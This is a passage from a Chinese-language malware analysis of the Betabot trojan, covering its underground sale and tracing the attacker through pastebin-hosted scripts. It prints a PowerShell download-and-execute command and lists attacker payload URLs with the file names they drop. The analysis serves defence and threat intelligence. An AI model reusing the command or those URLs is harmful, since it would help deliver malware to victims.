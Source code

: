 11、分发勒索软件

该恶意软件已在地下黑市上做广告进行销售，售价约为120美元。然而，由于最近发现了Betabot生成器的破解版本，因此其他网络犯罪分子都可以直接利用Betabot生成器构造样本而不从作者处购买，因此导致Betabot的变种增加。



## 分析溯源

由于该木马作者使用pastebin存放hta payload，所以通过搜索pastebin，发现一些攻击者的蛛丝马迹，找到另外一个payload，创建时间分别为5月6日和5月12日：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01bdb03ba368df8ee0.png)

图7.1 通过pastebin搜到的2个同源脚本

5月6日的那个脚本的powershell命令如下，该文件是一个白的putty样本，所以应该是攻击者在攻击前的测试：
<td valign="top" width="568">iex ((new-object net.webclient).downloadfile(“https://the.earth.li/~sgtatham/putty/latest/w64/putty.exe”,”$env:temp\nvbackend.exe”));</td>

[![](https://p5.ssl.qhimg.com/t01bd3bf9cc26f5a2eb.png)](https://p5.ssl.qhimg.com/t01bd3bf9cc26f5a2eb.png)

图7.2 pastebin搜到的攻击者的测试脚本

Pastebin上存的有创建时间和访问次数：

[![](https://p0.ssl.qhimg.com/t011e1fa99fa5813af6.png)](https://p0.ssl.qhimg.com/t011e1fa99fa5813af6.png)

图7.3 pastebin链接的内容

统计信息显示攻击者最近2个月一直在活跃，从4月15开始，5月28的时候还在活跃（标绿色的为测试链接），大部分下载链接的网站都是被黑的网站或者攻击者的虚拟空间，攻击者把EXE放到上面去：

[![](https://p4.ssl.qhimg.com/t01f28531ee079b7fcb.png)](https://p4.ssl.qhimg.com/t01f28531ee079b7fcb.png)

图7.4 pastebin关联到的同源样本
<td valign="bottom" nowrap>创建时间</td><td valign="bottom" nowrap>访问次数</td><td valign="bottom" nowrap>下载链接</td><td valign="bottom" nowrap>落地文件</td><td valign="bottom" nowrap>pastbin链接</td>

访问次数

落地文件
<td valign="bottom" nowrap>MAY 28TH, 2019</td><td valign="bottom" nowrap>181</td><td valign="bottom" nowrap>http://imhafiz.info/iyk.exe</td><td valign="bottom" nowrap>$env:temp\bakdraw.exe</td><td valign="bottom" nowrap>[https://pastebin.com/8qRQdXPk](https://pastebin.com/8qRQdXPk)</td>

181

$env:temp\bakdraw.exe
<td valign="bottom" nowrap>MAY 21ST, 2019</td><td valign="bottom" nowrap>205</td><td valign="bottom" nowrap>http://asia-kunsthandwea1-online.com/cs/femi.exe</td><td valign="bottom" nowrap>$env:temp\nvbackend.exe</td><td valign="bottom" nowrap>[https://pastebin.com/1fFneMx6](https://pastebin.com/1fFneMx6)</td>

205

$env:temp\nvbackend.exe
<td valign="bottom" nowrap>MAY 12TH, 2019</td><td valign="bottom" nowrap>83</td><td valign="bottom" nowrap>https://theearth.li/~sgtatham/putty/latest/w64/putty.exe</td><td valign="bottom" nowrap>$env:temp\nvbackend.exe</td><td valign="bottom" nowrap>[https://pastebin.com/PeqwepyA](https://pastebin.com/PeqwepyA)</td>
